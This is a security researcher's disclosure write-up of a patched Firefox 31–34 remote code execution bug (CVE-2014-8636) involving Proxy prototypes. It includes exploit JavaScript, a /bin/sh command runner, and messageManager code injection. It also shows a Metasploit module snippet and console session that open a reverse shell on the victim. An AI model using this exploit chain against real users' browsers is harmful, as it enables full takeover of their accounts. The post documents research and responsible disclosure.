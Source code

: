 ```yaml
---
layout: post
title: "Adventures in Browser Exploitation: Firefox 31 to 34 RCE"
---
```


(Note: this is a cross-post of an article I wrote for Metasploit's blog. The original post can be found [here](https://community.rapid7.com/community/metasploit/blog/2015/03/23/r7-2015-04-disclosure-mozilla-firefox-proxy-prototype-rce-cve-2014-8636)).

A few months ago, I was testing some Javascript code in Firefox involving Proxies. Proxies are a neat ECMAScript 6 feature that Firefox has had implemented for some time now. Proxy objects allow transparent interception of Javascript's normal get-/set-property pattern:

    var x = {};
    var p = Proxy(x, {
      get: function() {
        console.log('getter called!');
        return 'intercepted';
      },
      set: function() {
        console.log('setter called!');
      }
    });

    console.log(p.foo);
    p.bar = 1;

When run, the above code will print:

    > getter called!
    > intercepted
    > setter called!

This is very useful to Javascript programmers as it allows for the implementation of the Ruby-style `method_missing` catch-all method. However, there are security implications; the W3C spec often requires objects from untrusted Javascript to be passed to privileged native code. Getters and setters can allow unprivileged code to run in unexpected ways *inside* of the privileged native code itself, at which point security checks can start to break. One example of this is geohot's [2014 Chrome ArrayBuffer memory corruption bug](https://code.google.com/p/chromium/issues/detail?id=351787), which tricked native code operating on the buffer by defining a dynamic getter method on the ArrayBuffer's `length` property (there is a good writeup [here](http://researchcenter.paloaltonetworks.com/2014/12/google-chrome-exploitation-case-study/)).

So the presence of Proxy objects in Firefox mainstream warrants some investigation. After playing with the implementation, some problems were apparent in how privileged code would interact with Proxy objects that were acting as the `prototype` of another object. For example, the following line would hang the browser indefinitely:

    document.__proto__ = Proxy.create({getPropertyDescriptor:function(){ while(1) {} }});

I played with it some more but could not find a way to abuse the problem further. I reported this to Mozilla as bug `1120261`, hoping that someone would investigate. After some back-and-forth I found out that the problem was already fixed in the 35.0 branch, so I put the issue out of my mind.

### The breakthrough

A thought struck one day, perhaps the getter is being called back in a different environment. I decided to test this theory by attempting to open a window with chrome privileges: such an operation should not be permitted by unprivileged code. I gave it a shot:

    var props = {};
    props['has'] = function(){
      var chromeWin = open("chrome://browser/content/browser.xul", "x")();
    };

    document.__proto__ = Proxy.create(props)

I loaded the page and an alert for "attempting to open a popup window" appeared. This was a good sign, as it meant the `chrome://` URL was being allowed to load, and was stopped only by the popup blocker. Which meant... clicking anywhere on the page opened a `chrome`-privileged URL.

### What is `chrome://`?

Let's back up a bit. Firefox, like many other browsers, has a notion of *privileged zones*: different URI schemes have different powers. Chromium does this too (`chrome://downloads`), and Safari to some extent (`file://` URLs). However, Firefox's `chrome://` scheme is rather powerful - the Javascript executing under an origin with a scheme of `chrome://` has the full privileges of the browser. In the presence of the right vulnerability, attackers can use this to get a fully-working shell on the user's machine.

If you want to test this, open the Developer Console (meta-alt-i) and browse to `chrome://browser/content/browser.xul`. Run the following code (linux/osx only):

    function runCmd(cmd) {
        var process = Components.classes["@mozilla.org/process/util;1"]
                  .createInstance(Components.interfaces.nsIProcess);
        var sh = Components.classes["@mozilla.org/file/local;1"]
                 .createInstance(Components.interfaces.nsILocalFile);
        sh.initWithPath("/bin/sh");
        process.init(sh);
        var args = ["-c", cmd];
        process.run(true, args, args.length);
    }

    runCmd("touch /tmp/owned");

You should have a file in `/tmp/owned`.

So if an attacker can find a way to inject code into this window, like we did with the Developer Console, your entire user account is compromised.

### Injecting code

Gaining a reference to a `chrome://` window is only half the battle. [Same Origin Policy](http://en.wikipedia.org/wiki/Same-origin_policy) prevents `attacker.com` from interacting with the code in `chrome://browser`, so we will need to find a way around this. Here I got really lucky; I tried a technique I had used when implementing our [22.0-27.0 WebIDL exploit](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/multi/browser/firefox_webidl_injection.rb).

Here's the technique: by providing the `chrome` option to `open()`, when `open` is called from a chrome-privileged docshell, the provided URL is loaded as the top-level "frame" of the new browser window; that is, there is no skin or interface document that encapsulates our document. A top-level frame has a `messageManager` property, which is accessible to same-origin code running in other `chrome` docshells:

    // abuse vulnerability to open window in chrome://
    var c = new mozRTCPeerConnection;
    c.createOffer(function(){},function(){
      var w = window.open('chrome://browser/content/browser.xul', 'top', 'chrome');

      // we can now reference the `messageManager` property of the window's parent
      alert(w.parent.messageManager)
    });

[MessageManager](https://developer.mozilla.org/en-US/Firefox/Multiprocess_Firefox/The_message_manager) is a privileged Firefox API for sending messages between processes. One useful detail is that it allows injecting Javascript code into the process remotely using the `loadFrameScript` function.

### Gaining RCE

From here, gaining remote code execution is trivial, thanks to the Firefox privileged payloads included in Metasploit. Just include the `Msf::Exploit::Remote::FirefoxPrivilegeEscalation` mixin, and the `run_payload` method will return a configured piece of Javascript code that will call Firefox's XPCOM APIs to spawn a reverse or bind shell on the target. JSON is used here to avoid encoding issues:

    # Metasploit module (ruby code)
    js_payload = run_payload
    js = %Q|
        var payload = #{JSON.unparse({code: js_payload})};
        injectIntoChrome(payload.code);
    |
    send_response_html(cli, "<script>#{js}</script>")

The exploit is available as part of the Metasploit framework, under the module name `exploits/multi/browser/firefox_proxy_prototype`. Here is what it looks like to use:

    msf> use exploit/multi/browser/firefox_proxy_prototype
    msf> set LHOST <YOUR-EXTERNAL-IP>
    msf> set SRVHOST 0.0.0.0
    msf> run -j
    # User browses to URL...
    msf>
    [*] Command shell session 1 opened (10.10.9.1:4444 -> 10.10.9.1:65031) at 2015-02-02 17:03:49 -0600
    msf exploit(firefox_proxy_prototype) > sessions -i 1
    [*] Starting interaction with 1...
    ls /
    bin
    boot
    cdrom
    dev
    .. etc ..

### Timeline

- Jan 11, 2015: Originally reported to Mozilla as a low-severity DoS, which turned out to be already patched in trunk
- Jan 13, 2015: Firefox 35.0 shipped with patch
- Jan 20, 2015: RCE implications discovered and disclosed to Mozilla
- Feb 04, 2015: Disclosure to CERT/CC
- Feb 13, 2015: Mozilla updates their [original security advisory](CVE-2014-8636) to note possibility of RCE
- Mar 23, 2015: Public disclosure

All-in-all I was impressed with Mozilla's response. Plus they sent me a bug bounty, for discovering an RCE exploitation vector of *an already-patched bug*. Nice.
